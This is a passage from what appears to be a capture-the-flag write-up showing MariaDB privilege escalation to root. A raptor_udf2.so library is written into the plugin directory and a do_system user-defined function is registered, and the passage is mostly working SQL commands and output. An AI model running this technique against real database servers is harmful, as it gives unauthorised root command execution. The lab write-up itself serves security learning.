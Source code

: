 

    MariaDB [mysql]> create table foo(line blob);
    Query OK, 0 rows affected (0.007 sec)

    MariaDB [mysql]> insert into foo values(load_file('/dev/shm/raptor_udf2.so'));
    Query OK, 1 row affected (0.002 sec)



Next I need to know the plugins directory:



    MariaDB [mysql]> show variables like '%plugin%';
    +-----------------+---------------------------------------------+
    | Variable_name   | Value                                       |
    +-----------------+---------------------------------------------+
    | plugin_dir      | /usr/lib/x86_64-linux-gnu/mariadb19/plugin/ |
    | plugin_maturity | gamma                                       |
    +-----------------+---------------------------------------------+
    2 rows in set (0.001 sec)



I'll write that binary out into the plugins directory above, and load it
as a user defined function:



    MariaDB [mysql]> select * from foo into dumpfile '/usr/lib/x86_64-linux-gnu/mariadb19/plugin/raptor_udf2.so'; 
    Query OK, 1 row affected (0.000 sec)
    MariaDB [mysql]> create function do_system returns integer soname 'raptor_udf2.so';
    Query OK, 0 rows affected (0.001 sec)



To test it, I'll use the function to run `id` and write the result into
a file. I'll make sure to change the perms on the file so I can read it:



    MariaDB [mysql]> select do_system('id > /dev/shm/0xdf; chmod 777 /dev/shm/0xdf');
    +----------------------------------------------------------+
    | do_system('id > /dev/shm/0xdf; chmod 777 /dev/shm/0xdf') |
    +----------------------------------------------------------+
    |                                                        0 |
    +----------------------------------------------------------+
    1 row in set (0.005 sec)



The output in `mysql` isn't useful, but the file is there, and it was
run by root:



    svc@noter:/dev/shm$ ls -l 0xdf 
    -rwxrwxrwx 1 root root 39 Mar 30 21:08 0xdf
    svc@noter:/dev/shm$ cat 0xdf 
    uid=0(root) gid=0(root) groups=0(root)
